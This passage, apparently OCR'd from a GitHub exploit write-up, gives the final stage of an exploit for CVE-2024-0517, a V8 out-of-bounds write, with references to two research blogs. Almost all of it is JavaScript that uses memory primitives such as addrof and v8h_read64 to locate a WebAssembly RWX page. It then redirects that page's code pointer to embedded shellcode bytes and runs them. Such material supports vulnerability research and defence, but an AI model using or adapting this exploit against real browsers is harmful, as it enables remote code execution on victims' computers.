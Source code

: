 ```jsx

shell_func();

let shell_wasm_instance_addr = addrof(shell_wasm_instance);
let shell_wasm_rwx_addr = v8h_read64(shell_wasm_instance_addr + 0x48n);
let shell_func_code_addr = shell_wasm_rwx_addr + 0xB40n;
let shell_code_addr = shell_func_code_addr + 0x2Dn;
```

```jsx
const tbl = new WebAssembly.Table({
        initial: 2,
        element: "anyfunc"
});

const importObject = {
        imports: { imported_func : (n) => n + 1, },
        js: { tbl }
};

var wasmCode = new Uint8Array([
0,97,115,109,1,0,0,0,
1,15,3,96,1,124,1,124,96,2,124,124,0,96,0,1,125,
2,36,2,7,105,109,112,111,114,116,115,13,105,109,112,111,114,116,101,100,95,102,117,
110,99,0,0,
2,106,115,3,116,98,108,1,112,0,2,
3,3,2,1,0,
7,21,2,4,109,97,105,110,0,1,10,109,97,107,101,95,97,114,114,97,121,0,2,
10,31,2,22,0,68,144,144,144,144,72,137,16,195,68,204,204,204,204,204,204,
233,67,26,26,11,6,0,
32,0,16,0,11
]);

let wasmModule = new WebAssembly.Module(wasmCode);
let wasmInstance = new WebAssembly.Instance(wasmModule, importObject);

let wasmInstance_addr = addrof(wasmInstance);
let RWX_page_pointer = v8h_read64(wasmInstance_addr+0x48n);

let func_make_array = wasmInstance.exports.make_array;

let func_main = wasmInstance.exports.main;
wasm_write(wasmInstance_addr+0x48n, shell_code_addr);
func_main();
```

## Reference

[CW blog - CVE-2024-0517](https://cwresearchlab.co.kr/entry/CVE-2024-0517-Out-of-Bounds-Write-in-V8)

[Exodus blog - CVE-2024-0517](https://blog.exodusintel.com/2024/01/19/google-chrome-v8-cve-2024-0517-out-of-bounds-write-code-execution/)

[V8 git 12.0.267.15](https://chromium.googlesource.com/v8/v8.git/+/e73f620c2ef1230ddaa61551706225821a87c3b9)

